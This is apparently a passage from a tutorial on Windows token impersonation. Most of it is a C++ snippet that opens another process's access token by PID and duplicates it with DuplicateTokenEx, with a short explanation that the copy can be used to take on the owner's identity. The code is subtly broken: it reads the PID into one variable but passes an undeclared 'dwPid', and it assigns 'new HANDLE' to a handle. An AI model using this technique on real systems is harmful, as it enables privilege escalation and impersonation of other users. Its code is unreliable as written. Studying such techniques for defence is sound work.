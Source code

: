 ```c++
		}
	}
	if (!OpenProcessToken(currentProcess, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &AccessToken))
	{
		LastError = GetLastError();
		wprintf(L"ERROR: OpenProcessToken(): %d\n", LastError);
		return (HANDLE)NULL;
	}
	return AccessToken;
}

int wmain(int argc, WCHAR **argv)
{
	DWORD LastError;

	/* Argument Check */
	if (argc < 2)
	{
		wprintf(L"Usage: %ls <PID>\n", argv[0]);
		return 1;
	}

	/* Process ID definition */
	DWORD pid;
	pid = _wtoi(argv[1]);
	if ((pid == NULL) || (pid == 0)) return 1;

	wprintf(L"[+] Pid Chosen: %d\n", pid);

        // Retrieves the remote process token.
	HANDLE pToken = GetAccessToken(dwPid);
	
	//These are required to call DuplicateTokenEx.
	SECURITY_IMPERSONATION_LEVEL seImpersonateLevel = SecurityImpersonation;
	TOKEN_TYPE tokenType = TokenPrimary;
	HANDLE pNewToken = new HANDLE;
	if(!DuplicateTokenEx(pToken, MAXIMUM_ALLOWED, NULL, seImpersonateLevel, tokenType, &pNewToken))
	{
		DWORD LastError = GetLastError();
		wprintf(L"ERROR: Could not duplicate process token [%d]\n", LastError);
		return 1;
	}
	wprintf(L"Process token has been duplicated.\n");
}
```

It is a lot of code. But in summary, this code uses a function named GetAccessToken to retrieve a handle for a remote process, given a DWORD as input that represents a process PID number. If successful, it duplicates the token retrieved, so we can use it to impersonate the token owner identity later.
